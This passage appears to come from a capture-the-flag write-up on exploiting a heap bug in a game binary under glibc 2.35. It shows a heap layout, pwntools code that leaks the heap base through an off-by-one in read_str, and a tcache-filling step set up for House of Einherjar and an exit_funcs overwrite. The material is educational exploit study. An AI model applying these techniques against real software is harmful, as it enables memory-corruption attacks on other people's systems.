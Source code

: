 ```
0x00: 0x0000000000000000 0x0000000000000061
0x10: 0x0000000000000000 0x0000000000000021 
0x20: 0x0000000000000020 0x0000000000000020 <- malloc(0) returns a pointer to 0x20
0x30: 0x0000000000000000 0x0000000000000131 (in unsorted bin)
0x40: 0x0000000000000020 0x0000000000000040
0x50: 0x0000000000000000 0x0000000000000000
0x60: 0x0000000000000000 0x0000000000000000 
```

From here, exploitation is simple. On 2.35, without `__free_hook`, we can either attack `exit_funcs` or perform {%
post_link fsop/house-of-apple %}. I chose to do `exit_funcs` here.

# Exploitation

First, we need heap leak for the above. This can be gotten from (again!) the off-by-one in `read_str`, now on
`username`, because in the player struct, `name` is right before the `inv[]` array. So by making sure `name` has no null
byte, we can leak the pointer to `inv[0]`.

```py
p.sendline(b"a"*32)

# clear lvl 1 to earn enough gold for heap exploit
level1(p)

# leak heap base
p.clean()
purchase(p, b"Poison") # get heap pointer (which is next to username)
p.recvuntil(b"a"*32)
leak = u64(p.recvuntil(b"'s", drop=True).ljust(8, b"\x00"))
heap_base = leak - 0x2a0
print(hex(heap_base))
use(p, 0)
```

Before doing House of Einherjar, we need to first block off tcache for our second chunk, because tcache chunks aren't
"freed" in the usual sense (it bypasses a lot of the logic in `free()`), and so consolidation won't occur. We can also
use these chunks to "poison" our hp to 0, so we can exit smoothly later when we enter the next level.

```py
# setup the heap
for i in range(7):
    # fill up tcache so that the consolidated chunk doesn't go to tcache
    # but triggers consolidate instead
    purchase(p, b"Poison" + b"a"*(0xf0 - 6)) # use poison to get hp to 0
```

```c
  if (p->hp <= 0) {
    printf("😭\n");
    printf("You died...\n");
    exit(0);
```
